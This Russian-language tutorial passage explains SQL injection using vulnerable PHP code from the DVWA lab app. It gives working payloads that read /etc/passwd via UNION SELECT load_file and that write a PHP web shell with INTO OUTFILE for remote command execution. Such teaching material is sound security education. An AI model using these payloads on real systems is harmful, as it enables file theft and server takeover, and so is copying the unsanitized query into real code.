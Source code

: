 Пример уязвимого кода на PHP:
```php
<?php
if( isset( $_REQUEST[ 'Submit' ] ) ) {
    // Get input
    $id = $_REQUEST[ 'id' ];

    switch ($_DVWA['SQLI_DB']) {
        case MYSQL:
            // Check database
            $query  = "SELECT first_name, last_name FROM users WHERE user_id = '$id';";
            $result = mysqli_query($GLOBALS["___mysqli_ston"],  $query ) ...
    }
    ...
}
?>
```
*Источник: [DVWA](https://github.com/digininja/DVWA)*

Как было сказано раньше, в этом примере данные, полученные от пользователя, не проходят предварительных проверок и сразу же подставляются в запрос. Эта ошибка позволяет атакующему внедрить в запрос конструкции, нарушающие логику работы приложения.

## Пример нагрузки, выполняющей чтение локальных файлов:
```sql
' union select 1, load_file('/etc/passwd') #
```
![](https://user-images.githubusercontent.com/58670841/178011168-7d0645e1-22cd-462f-8369-fda955f3ff2e.png)

*Источник: [DVWA](https://github.com/digininja/DVWA)*

В данном примере запрос 
```sql
SELECT first_name, last_name FROM users WHERE user_id = '$id';
``` 
после получения параметра `$id` от пользователя, преобразуется в следующую конструкцию:
```sql
SELECT first_name, last_name FROM users WHERE user_id = '' union select 1, load_file('/etc/passwd') #';
``` 
которая и даёт атакующему возможность чтения локальных файлов.

## Пример нагрузки на получение shell'а:
```sql
' union select 1, '<?php system($_GET["cmd"]); ?>' into outfile '../../htdocs/cmd.php' #
```
В этом примере атакующий записывает PHP-скрипт
```php
<?php 
system($_GET["cmd"]); 
?>
```
в файл cmd.php.
Теперь атакующий может обратиться к этой веб-странице и через параметры GET запроса отправлять команды системе-жертве.
